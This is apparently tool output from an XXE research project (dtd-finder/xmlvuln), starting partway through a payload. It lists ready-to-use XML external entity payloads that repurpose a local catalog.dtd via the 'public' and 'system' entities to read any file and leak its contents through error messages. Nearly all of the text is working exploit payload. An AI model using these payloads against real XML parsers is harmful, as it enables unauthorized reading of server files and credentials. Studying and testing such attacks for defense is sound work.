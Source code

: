 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `public`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % public 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `system`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % system 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
